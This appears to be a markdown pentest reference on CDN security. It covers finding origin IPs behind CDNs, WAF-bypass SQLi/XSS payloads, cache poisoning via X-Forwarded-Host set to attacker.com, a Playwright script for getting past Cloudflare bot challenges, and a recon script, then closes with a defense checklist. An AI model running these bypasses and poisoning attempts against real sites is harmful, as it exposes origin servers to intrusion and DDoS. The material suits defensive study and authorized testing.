


# 🌐 CDN Security — Architecture, Bypass & Attack Techniques

> **Core Insight:** CDNs add a layer of protection, but they also introduce new attack surfaces — and hiding behind a CDN is not a security control if the origin IP is discoverable.

---

## 📚 Table of Contents

1. [CDN Architecture](#cdn-architecture)
2. [Major CDN Providers](#major-cdn-providers)
3. [How Requests Route Through CDNs](#how-requests-route-through-cdns)
4. [CDN Security Features](#cdn-security-features)
5. [CDN Bypass: Finding Origin IP](#cdn-bypass-finding-origin-ip)
6. [CDN Cache Poisoning](#cdn-cache-poisoning)
7. [CDN Configuration Mistakes](#cdn-configuration-mistakes)
8. [Cloudflare-Specific Techniques](#cloudflare-specific-techniques)
9. [Tools & Commands](#tools--commands)
10. [Defense Checklist](#defense-checklist)

---

## 🧠 CDN Architecture

A Content Delivery Network is a globally distributed network of servers (Points of Presence / PoPs) that cache and serve content closer to users.



### Origin Pull vs Origin Push

| Model | Description | Security Impact |
|-------|-------------|----------------|
| **Origin Pull** | CDN fetches from origin on cache miss | Origin must be reachable from CDN IPs |
| **Origin Push** | Content uploaded to CDN directly | No origin at all; CI/CD pipeline security critical |

Most dynamic web apps use **origin pull**.

### PoP Network

```
User in Tokyo → GeoDNS resolves target.com → Nearest CDN edge (Tokyo PoP)
                                               Cache HIT → Serves directly
                                               Cache MISS → Pulls from origin (us-east-1)
```

---

## 🏢 Major CDN Providers

| CDN | Known For | WAF | IP Ranges |
|-----|----------|-----|-----------|
| **Cloudflare** | Free tier, massive PoP network | Yes (rules) | 104.16.0.0/13, 172.64.0.0/13, etc. |
| **Akamai** | Enterprise, oldest CDN | Yes (Kona Site Defender) | Complex; use `curl https://techdocs.akamai.com` |
| **Fastly** | Instant purge, dev-friendly | Yes | 23.235.32.0/20, 199.232.0.0/16, etc. |
| **AWS CloudFront** | AWS-integrated | Yes (AWS WAF) | `curl https://ip-ranges.amazonaws.com/ip-ranges.json` |
| **Azure CDN** | Microsoft ecosystem | Yes (Azure WAF) | Azure IP ranges JSON |
| **Google Cloud CDN** | GCP-integrated | Cloud Armor | GCP IP ranges |
| **Bunny CDN** | Budget-friendly | Basic | bunny.net IP ranges |

### Detecting Which CDN Is in Use

```bash
# Check response headers:
curl -s -I https://target.com | grep -i "cf-ray\|server\|x-cdn\|x-cache\|via\|powered"

# Cloudflare:     CF-Ray: abc123-LAX
# Akamai:         X-Check-Cacheable: YES, Server: AkamaiGHost
# Fastly:         Via: 1.1 varnish, X-Served-By: cache-...
# CloudFront:     Via: 1.1 abc123.cloudfront.net
# Azure CDN:      X-Azure-Ref: ...

# DNS-based detection:
dig target.com
# CNAME to *.cloudflare.com → Cloudflare
# CNAME to *.akamaiedge.net → Akamai
# CNAME to *.cloudfront.net → AWS CloudFront
# CNAME to *.fastly.net → Fastly

# Automated:
whatweb https://target.com
```

---

## 🔀 How Requests Route Through CDNs

### Full Request Flow



### CDN-Added Headers (Origin Receives These)

```http
X-Forwarded-For: USER_IP, CDN_IP
CF-Connecting-IP: USER_IP          ← Cloudflare real client IP
True-Client-IP: USER_IP            ← Akamai real client IP  
X-Real-IP: USER_IP                 ← Various CDNs
CF-IPCountry: US                   ← Cloudflare geo
X-Forwarded-Proto: https           ← Indicates original protocol
```

---

## 🛡️ CDN Security Features

### WAF (Web Application Firewall)

CDN WAFs operate at the edge, before traffic reaches your origin:

```
Attacker → [CDN WAF: blocks SQLi, XSS, LFI rules] → [Origin: protected]

Cloudflare WAF:
- Managed rules: OWASP, Cloudflare-specific
- Custom rules: "Block requests from AS1234"
- Rate limiting: "Block if > 100 req/min per IP"
- Bot management: JS challenge, CAPTCHA
```

**WAF Bypass Techniques:**

```bash
# Encoding bypass
' OR 1=1--              → blocked
%27%20OR%201%3D1--      → URL encoded
'%20OR%201%3D1--        → partial encoding
/*!50000 OR*/1=1--      → MySQL version comment

# Case variation
<SCRIPT>alert(1)</SCRIPT>
<ScRiPt>alert(1)</ScRiPt>

# Chunked encoding to confuse WAF:
# Transfer-Encoding: chunked with malicious payload split across chunks

# Null bytes
<scr\x00ipt>alert(1)</script>  # Some WAFs strip nulls, browser doesn't

# Double URL encoding (if server normalizes):
%2527 → %27 → '    (double-encoded quote)
```

### DDoS Protection

```
L3/L4 DDoS → CDN absorbs at edge (Cloudflare: 321 Tbps capacity)
L7 DDoS   → Rate limiting, bot detection, JS challenge
```

**Bypass:** Direct-to-origin attack (if origin IP known). This is why CDN bypass matters.

### TLS Termination

```
User → HTTPS → CDN Edge (decrypts) → HTTP → Origin
                                   OR
                                   → HTTPS → Origin (end-to-end)
```

**Security implication:** Traffic between CDN and origin may be unencrypted if misconfigured. Check Cloudflare SSL mode: "Flexible" = unencrypted to origin (BAD), "Full (Strict)" = verified HTTPS to origin (GOOD).

---

## 🔴 CDN Bypass: Finding Origin IP

This is critical because:
1. Once you have origin IP, CDN WAF is bypassed
2. DDoS protection is bypassed
3. Rate limiting on the CDN is bypassed
4. You may access development/staging endpoints not behind CDN

### Technique 1: DNS History (Most Effective)

```bash
# SecurityTrails (free account):
# https://securitytrails.com/domain/target.com/history/a
# Shows all historical A records

# API usage:
curl "https://api.securitytrails.com/v1/history/target.com/dns/a" \
  -H "APIKEY: YOUR_API_KEY" | \
  python3 -c "
import json, sys
data = json.load(sys.stdin)
for record in data.get('records', []):
    for val in record.get('values', []):
        print(f\"{record['first_seen']} → {val['ip']}\")
" | sort -u

# ViewDNS.info (web):
curl "https://viewdns.info/iphistory/?domain=target.com"
# or via API

# PassiveTotal / RiskIQ (Microsoft):
curl "https://api.riskiq.net/pt/v2/dns/passive?query=target.com" \
  -u "API_USER:API_KEY"
```

### Technique 2: Certificate Transparency Logs

```bash
# crt.sh: No API key needed
curl -s "https://crt.sh/?q=%.target.com&output=json" | \
  python3 -c "
import json, sys
from collections import Counter

data = json.load(sys.stdin)
names = Counter()
for entry in data:
    for name in entry['name_value'].split('\n'):
        name = name.strip().lstrip('*.')
        if name:
            names[name] += 1

for name, count in names.most_common():
    print(f'{count:4d}  {name}')
" | tee crtsh-subdomains.txt

# Now resolve subdomains:
while read -r sub; do
    ip=$(dig +short "$sub" A 2>/dev/null | head -1)
    if [[ -n "$ip" ]]; then
        echo "$ip  $sub"
    fi
done < crtsh-subdomains.txt | sort | \
  grep -v "^104\.16\.\|^104\.21\.\|^172\.64\.\|^172\.67\."  # Filter Cloudflare
```

### Technique 3: Shodan & Censys

```bash
# Shodan CLI (pip install shodan):
shodan search "ssl.cert.subject.cn:target.com" --fields ip_str,port,org,hostnames

# Shodan web query:
# ssl.cert.subject.cn:"target.com"
# ssl.cert.subject.cn:"*.target.com"
# http.favicon.hash:HASH_VALUE  (fingerprint by favicon)

# Censys API:
curl "https://search.censys.io/api/v2/hosts/search?q=services.tls.certificates.leaf_data.subject.common_name%3Atarget.com" \
  -H "Authorization: Basic $(echo -n 'API_ID:SECRET' | base64)"

# Shodan favicon hash technique:
# 1. Download favicon: curl https://target.com/favicon.ico > favicon.ico
# 2. Calculate hash: python3 -c "import mmh3,base64,codecs; print(mmh3.hash(codecs.lookup('base64').decode(open('favicon.ico','rb').read())[0]))"
# 3. Search Shodan: http.favicon.hash:HASHVALUE
# → Finds servers with same favicon, even if IP changed
```

### Technique 4: Mail/MX Records

```bash
# Mail servers often reside on same infrastructure as web, but bypass CDN:
dig MX target.com +short
# → 10 mail.target.com.

dig A mail.target.com +short
# → 5.6.7.8 (real IP!)

# This reveals:
# 1. Real server IP (same /24 as web origin)
# 2. Mail infrastructure clues (self-hosted vs GSuite vs O365)

# SPF record inspection:
dig TXT target.com | grep "spf"
# "v=spf1 ip4:10.20.30.0/24 ip4:40.50.60.0/24 include:sendgrid.net ~all"
#          ↑ These IPs are the company's real IP ranges!

# Try web access on all IP ranges found in SPF:
for ip in 10.20.30.{1..254}; do
    code=$(curl -s -o /dev/null -w "%{http_code}" --max-time 2 -H "Host: target.com" "http://$ip/")
    [ "$code" != "000" ] && echo "[$code] $ip"
done
```

### Technique 5: Old Records in Wayback Machine

```bash
# Wayback Machine API:
curl "http://archive.org/wayback/available?url=target.com&timestamp=20180101" | \
  python3 -m json.tool

# Check response headers from old cached pages:
curl -s "https://web.archive.org/web/20180601000000*/target.com" | \
  grep -oE '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}'

# CommonCrawl — massive web crawl with headers:
curl "https://index.commoncrawl.org/CC-MAIN-2018-51-index?url=target.com&output=json" | \
  python3 -c "import sys,json; [print(json.loads(l).get('filename')) for l in sys.stdin]"
```

### Technique 6: Subdomain Enumeration (Non-CDN Subdomains)

```bash
# Comprehensive subdomain enumeration:
# Tool 1: subfinder (passive)
subfinder -d target.com -all -silent -o subs.txt

# Tool 2: amass (active + passive)
amass enum -passive -d target.com -o amass_subs.txt

# Tool 3: dnsx (resolve subdomains)
cat subs.txt | dnsx -a -resp -silent | \
  awk '{print $2, $1}' | sort | \
  grep -v "104\.16\.\|104\.21\.\|172\.64\.\|172\.67\."  # Remove Cloudflare

# Subdomains likely NOT behind CDN:
# vpn.target.com, mail.target.com, smtp.target.com
# dev.target.com, staging.target.com, test.target.com
# api.target.com, cdn.target.com, assets.target.com
# direct.target.com, origin.target.com
```

### Technique 7: Direct Brute Force

```bash
# Try to find origin via common hostnames:
COMMON=("origin" "direct" "real" "host" "www2" "backend" "app" "api" "web")
for name in "${COMMON[@]}"; do
    ip=$(dig +short "$name.target.com" A | head -1)
    if [[ -n "$ip" ]]; then
        echo "Found: $name.target.com → $ip"
    fi
done
```

### Verifying the Origin IP

```bash
# Test if candidate IP is the real origin:
TARGET_IP="1.2.3.4"
DOMAIN="target.com"

# HTTP test:
curl -s -o /dev/null -w "%{http_code}" \
  -H "Host: $DOMAIN" \
  "http://$TARGET_IP/"

# HTTPS test (with SNI):
curl -s -o /dev/null -w "%{http_code}" \
  -H "Host: $DOMAIN" \
  --resolve "$DOMAIN:443:$TARGET_IP" \
  "https://$DOMAIN/"

# Check SSL certificate:
echo | openssl s_client -connect $TARGET_IP:443 \
  -servername $DOMAIN 2>/dev/null | \
  openssl x509 -noout -subject -dates

# Fingerprint: confirm content matches CDN-delivered version
curl -s -H "Host: $DOMAIN" "http://$TARGET_IP/" | md5sum
curl -s "https://$DOMAIN/" | md5sum
# If hashes match → confirmed origin
```

---

## 💥 CDN Cache Poisoning

CDNs introduce additional cache poisoning vectors due to their header handling.

### Host Header Injection via CDN

```bash
# Cloudflare forwards the original Host header
# But also adds X-Forwarded-Host when present:

# Attack: inject malicious X-Forwarded-Host
curl "https://target.com/" \
  -H "X-Forwarded-Host: attacker.com" \
  -H "Cache-Control: no-cache"

# If app uses X-Forwarded-Host to build absolute URLs:
# → Poisoned page loads scripts from attacker.com
# → Cloudflare caches the poisoned response!
# → All users served poisoned response
```

### CDN-Specific Behavior Differences

| CDN | X-Forwarded-Host Behavior | Cache Key | Notes |
|-----|--------------------------|-----------|-------|
| Cloudflare | Strips it (usually) | URL + Host | Configurable |
| Akamai | May forward | URL + Host | "Ghost" behavior |
| Fastly | Forwards to VCL | Configurable | Developer-controlled |
| CloudFront | Strips unless whitelisted | URL + Host | Configured in behaviors |

```bash
# Test which headers Cloudflare forwards to origin:
# Use a request bin or ngrok:
ngrok http 8080 &
curl "https://target.com/" \
  -H "X-Forwarded-Host: YOUR_NGROK.ngrok.io" \
  -H "X-Evil-Test: check-if-forwarded"
# If ngrok receives the request → header passed through
```

### CloudFront-Specific Cache Poisoning

```bash
# CloudFront: unkeyed header injection
# Default behavior: forwards all headers to origin but may not include in cache key

# Attack: X-Forwarded-For is forwarded but not keyed (by default)
curl "https://d1234.cloudfront.net/page" \
  -H "X-Forwarded-For: <script>alert(1)</script>"
# If response reflects X-Forwarded-For → poisonable
```

### Fastly VCL Poisoning

```bash
# Fastly uses VCL (Varnish Config Language) — developer-controlled cache logic
# Misconfigured VCL can lead to cache poisoning:

# If VCL uses request header in cache key incorrectly:
# bereq.url = req.url + "?source=" + req.http.Referer;
# → Attacker controls cache key via Referer header

# Test:
curl "https://target.com/page" \
  -H "Referer: https://attacker.com/inject"
```

---

## ⚠️ CDN Configuration Mistakes

### 1. Partial CDN Coverage (Mixed Protection)

```
DNS:
target.com         → Cloudflare (orange cloud) ✅
www.target.com     → Cloudflare (orange cloud) ✅
api.target.com     → Direct A record (grey cloud) ❌ Origin exposed!
mail.target.com    → Direct A record (grey cloud) ❌ Origin IP exposed!
dev.target.com     → Direct A record (grey cloud) ❌ Dev server exposed!

Attack:
1. Find api.target.com or mail.target.com IP
2. Same /24 as web origin (usually)
3. Direct attack on origin bypassing WAF
```

### 2. Origin Not Restricting to CDN IP Ranges

```bash
# Origin server should ONLY accept connections from CDN IPs
# If it accepts from anywhere → CDN bypass is trivially useful

# Check if origin accepts direct connections:
curl -s -o /dev/null -w "%{http_code}" \
  -H "Host: target.com" \
  "http://ORIGIN_IP/"
# 200 → Origin accessible without going through CDN

# Correct config (nginx + Cloudflare):
# /etc/nginx/conf.d/cloudflare-ips.conf
allow 173.245.48.0/20;
allow 103.21.244.0/22;
allow 103.22.200.0/22;
allow 103.31.4.0/22;
allow 141.101.64.0/18;
allow 108.162.192.0/18;
allow 190.93.240.0/20;
allow 188.114.96.0/20;
allow 197.234.240.0/22;
allow 198.41.128.0/17;
allow 162.158.0.0/15;
allow 104.16.0.0/13;
allow 104.24.0.0/14;
allow 172.64.0.0/13;
allow 131.0.72.0/22;
deny all;
```

### 3. Sensitive Endpoints Accidentally Cached

```bash
# CDN caches /api/user/profile because it returns JSON
# and developer forgot Cache-Control: private

# Detect: check if API endpoints return cache headers
curl -s -I "https://target.com/api/v1/user/profile" \
  -H "Cookie: session=YOUR_SESSION" | \
  grep -i "cache\|age\|cf-cache"

# CF-Cache-Status: HIT ← DANGER: your profile is cached!
# Age: 45 ← Has been in cache for 45 seconds
# Other users can request your exact URL and get your data
```

### 4. Cache-Control Misconfiguration

```bash
# Developer sets:
Cache-Control: max-age=3600
# Forgot to add: private
# CDN treats this as PUBLIC → caches personalized data globally

# The fix:
Cache-Control: private, max-age=3600  # Browser can cache, CDN cannot
Cache-Control: no-store               # Nobody caches this
Cache-Control: s-maxage=0             # CDN gets 0 TTL, browser gets full
```

### 5. SSL Configuration: Flexible Mode

```
Cloudflare SSL Mode: Flexible
→ User ←HTTPS→ Cloudflare ←HTTP→ Origin

This means:
- Credential/session cookies transmitted unencrypted between CDN and origin
- Anyone on CDN's internal network can sniff
- Login forms transmit passwords in plaintext to origin

Correct mode: Full (Strict)
→ User ←HTTPS→ Cloudflare ←HTTPS (verified cert)→ Origin
```

---

## ☁️ Cloudflare-Specific Techniques

### Orange Cloud vs Grey Cloud

```
In Cloudflare DNS dashboard:
🟠 Orange Cloud = "Proxied" = goes through Cloudflare edge
   → Your IP is hidden
   → WAF active
   → DDoS protection active

⚫ Grey Cloud = "DNS only" = returns real A record
   → Your real IP is exposed
   → No WAF
   → No DDoS protection

# Check DNS to see which records are grey:
dig +short target.com     # Cloudflare IP → orange
dig +short dev.target.com # Real IP → grey!
dig +short mail.target.com # Real IP → grey!
```

### Cloudflare Worker Edge Attacks

```javascript
// Cloudflare Workers run JavaScript at the CDN edge
// Misconfigured workers can expose origin or be exploited

// Check for worker routes:
curl -s -I "https://target.com/api/worker-endpoint" | grep "CF-Worker"

// Worker security issues:
// 1. Secrets in worker code (KV store keys, API tokens)
// 2. Worker logic bypass via edge-case paths
// 3. KV store timing attacks
```

### Bypassing Cloudflare Bot Detection

```bash
# Cloudflare managed challenge sends JavaScript challenge
# Bypass: use a real browser via Selenium/Playwright

# Python + Playwright:
from playwright.sync_api import sync_playwright

with sync_playwright() as p:
    browser = p.chromium.launch(headless=False)  # Non-headless avoids detection
    page = browser.new_page()
    page.goto("https://target.com/protected")
    page.wait_for_timeout(5000)  # Wait for JS challenge
    content = page.content()
    cookies = page.context.cookies()
    print(cookies)  # cf_clearance cookie!
    browser.close()

# Use cf_clearance cookie in subsequent requests:
curl "https://target.com/protected" \
  -H "Cookie: cf_clearance=CLEARANCE_TOKEN" \
  -H "User-Agent: MATCHING_UA"
```

### Cloudflare IP Ranges (for Allowlisting)

```bash
# Download current Cloudflare IP ranges:
curl -s "https://www.cloudflare.com/ips-v4" > cf_ips_v4.txt
curl -s "https://www.cloudflare.com/ips-v6" > cf_ips_v6.txt

# Nginx allow only Cloudflare + your own IPs:
for ip in $(curl -s https://www.cloudflare.com/ips-v4); do
    echo "allow $ip;"
done > /etc/nginx/cloudflare-allow.conf
echo "deny all;" >> /etc/nginx/cloudflare-allow.conf
```

---

## 🛠️ Tools & Commands

### Origin IP Discovery Toolkit

```bash
#!/bin/bash
# cdn-bypass.sh - Find origin IP behind CDN
DOMAIN=$1

echo "========================================"
echo " CDN Bypass Recon: $DOMAIN"
echo "========================================"

echo -e "\n[1] Current DNS resolution:"
dig +short A "$DOMAIN"
dig +short AAAA "$DOMAIN"

echo -e "\n[2] CNAME chain:"
dig +short CNAME "$DOMAIN"

echo -e "\n[3] MX records (may reveal real IP):"
dig +short MX "$DOMAIN" | while read priority mx; do
    ip=$(dig +short A "$mx" | head -1)
    echo "  $mx → $ip"
done

echo -e "\n[4] SPF record (IP ranges):"
dig +short TXT "$DOMAIN" | grep spf

echo -e "\n[5] Checking crt.sh for subdomains..."
curl -s "https://crt.sh/?q=%.${DOMAIN}&output=json" 2>/dev/null | \
  python3 -c "
import json,sys
data=json.load(sys.stdin)
subs=set()
for e in data:
    for n in e['name_value'].split('\n'):
        subs.add(n.strip().lstrip('*.'))
for s in sorted(subs): print(s)
" 2>/dev/null | tee /tmp/subs_${DOMAIN}.txt

echo -e "\n[6] Resolving subdomains (filtering CDN IPs)..."
while read -r sub; do
    ip=$(dig +short A "$sub" 2>/dev/null | head -1)
    if [[ -n "$ip" ]]; then
        # Filter known CDN ranges
        if ! echo "$ip" | grep -qE "^(104\.16\.|104\.21\.|172\.64\.|172\.67\.|104\.18\.|2606:4700)"; then
            echo "  $ip  →  $sub"
        fi
    fi
done < /tmp/subs_${DOMAIN}.txt

echo -e "\n[7] Shodan lookup (requires API key):"
if command -v shodan &>/dev/null; then
    shodan search "ssl.cert.subject.cn:${DOMAIN}" --fields ip_str,port,org 2>/dev/null | head -10
else
    echo "  shodan CLI not installed. Visit: https://www.shodan.io/search?query=ssl.cert.subject.cn:${DOMAIN}"
fi

echo -e "\nDone. Candidate IPs to verify manually."
```

### httpx Mass Verification

```bash
# Verify which IPs are hosting the target site:
cat candidate_ips.txt | \
  httpx -H "Host: target.com" \
        -status-code \
        -title \
        -tech-detect \
        -content-length \
        -silent

# Output: 1.2.3.4:443 [200] [target.com - Home] [Apache] [1234]
```

### Subfinder + httpx Pipeline

```bash
# Full automation:
subfinder -d target.com -all -silent | \
  dnsx -a -resp -silent | \
  awk '{print $2"\t"$1}' | \
  tee all-resolved.txt | \
  grep -v "104\.16\.\|104\.21\.\|172\.64\." | \
  awk '{print $1}' | \
  sort -u | \
  tee non-cdn-ips.txt

echo "Candidate origin IPs:"
cat non-cdn-ips.txt
```

---

## 🛡️ Defense Checklist

| Control | Implementation | Priority |
|---------|---------------|----------|
| **Restrict origin to CDN IPs only** | Firewall/nginx allow list | 🔴 Critical |
| **All subdomains behind CDN** | Check DNS for grey clouds | 🔴 Critical |
| **No sensitive data in CDN cache** | `Cache-Control: private, no-store` on auth'd pages | 🔴 Critical |
| **Full (Strict) TLS mode** | Cloudflare SSL settings | 🔴 Critical |
| **CDN WAF enabled and tuned** | Enable managed rulesets | 🟠 High |
| **Rate limiting configured** | Threshold by IP + endpoint | 🟠 High |
| **No secrets in CDN-cached responses** | Audit API responses | 🟠 High |
| **CSP configured** | Prevent loading scripts from unexpected origins | 🟡 Medium |
| **Monitor CDN bypass attempts** | Alert on direct-to-origin traffic | 🟡 Medium |
| **Rotate origin IP periodically** | If bypass becomes known | 🟡 Medium |

### Cloudflare: Origin Certificate Pinning

```nginx
# Validate that HTTPS connections come from Cloudflare (mTLS):
# Cloudflare Authenticated Origin Pulls

# nginx config:
ssl_client_certificate /etc/nginx/certs/cloudflare.crt;
ssl_verify_client on;

# Download Cloudflare origin CA cert:
# https://developers.cloudflare.com/ssl/static/authenticated_origin_pull_ca.pem
```

---

## 📚 References

- [CloudSek: CDN Bypass Techniques](https://cloudsek.com/blog/bypassing-cdn-and-finding-original-ip-addresses)
- [Cloudflare IP Ranges](https://www.cloudflare.com/ips/)
- [AWS CloudFront IP Ranges](https://ip-ranges.amazonaws.com/ip-ranges.json)
- [Shodan Manual: CDN fingerprinting](https://help.shodan.io/)
- [crt.sh Certificate Transparency Search](https://crt.sh/)
- [SecurityTrails API Docs](https://docs.securitytrails.com/)
- [Fastly VCL Configuration Security](https://developer.fastly.com/reference/vcl/)
- Tools: `subfinder`, `amass`, `dnsx`, `httpx`, `shodan`, `whatweb`
- CVE-2021-22986 — F5 BIG-IP: iControl REST auth bypass (load balancer + CDN attack)
- CVE-2019-19781 — Citrix ADC path traversal (reverse proxy/CDN appliance)
